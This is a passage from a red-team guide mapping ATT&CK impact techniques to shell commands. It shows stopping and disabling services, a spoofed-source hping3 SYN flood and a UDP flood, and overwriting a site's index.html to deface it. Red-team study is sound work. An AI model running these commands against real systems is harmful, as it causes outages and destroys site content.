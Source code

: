 ### Service Stop (T1489)

This involves stopping or disabling services to create a denial of service.

**Service Disruption**:
```bash
# Stop critical service
systemctl stop apache2

# Disable service on boot
systemctl disable mysql

# Kill service process
pkill nginx
```

**Specific ATT&CK Mapping**:
- Service termination implements T1489
- Selective disruption can cause specific impacts

**Operational Security**:
- Service disruption may trigger monitoring alerts
- Consider temporary disruption rather than complete disabling
- Document original service state for restoration

### Network Denial of Service (T1498)

This involves flooding network resources to cause denial of service.

**Network Flooding Tools**:
```bash
# Simple SYN flood
hping3 --flood --rand-source -S -p 80 target.com

# UDP flood
udpflood target.com 53 100000
```

**Specific ATT&CK Mapping**:
- Network flooding implements T1498
- Targeted disruption affects specific services

**Red Team Guidance**:
- Network DoS attacks are rarely executed in actual red teams
- Consider simulation rather than implementation
- Document theoretical impact for reporting

### Defacement (T1491)

This involves changing visible content to demonstrate compromise.

**Web Defacement**:
```bash
# Replace website content
echo "<html><body><h1>Hacked by Red Team</h1></body></html>" > /var/www/html/index.html

# Add hidden watermark
echo "<!-- Accessed by Red Team on $(date) -->" >> /var/www/html/index.html
```
